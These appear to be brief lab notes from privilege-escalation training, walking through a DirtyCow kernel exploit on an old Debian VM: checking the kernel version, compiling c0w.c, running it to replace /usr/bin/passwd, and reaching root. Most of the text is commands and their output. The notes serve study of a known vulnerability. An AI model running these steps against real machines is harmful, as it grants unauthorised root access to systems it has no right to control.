  
Kernel is the translator between hardware and software components #kernalexploit 

1. Find linux version. 
~~~bash
TCM@debian:~$ uname -a
Linux debian 2.6.32-5-amd64 #1 SMP Tue May 13 16:34:35 UTC 2014 x86_64 GNU/Linux
~~~

2. Found dirtycow as the priviledge escalation. #dirtycow
~~~bash
TCM@debian:~/tools/dirtycow$ ls
c0w.c
~~~

3. Do gcc compile of the exploit. 
~~~bash
TCM@debian:~/tools/dirtycow$ gcc -pthread c0w.c -o cow
TCM@debian:~/tools/dirtycow$ ls
c0w.c  cow
~~~

4. Run exploit and use password as 'passwd'
~~~bash
TCM@debian:~/tools/dirtycow$ ./cow
                                
   (___)                                   
   (o o)_____/                             
    @@ `     \                            
     \ ____, //usr/bin/passwd                          
     //    //                              
    ^^    ^^                               
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
mmap d6c31000

madvise 0

ptrace 0

TCM@debian:~/tools/dirtycow$ passwd
root@debian:/home/user/tools/dirtycow# id
uid=0(root) gid=1000(user) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
~~~

5. Rooted machine. 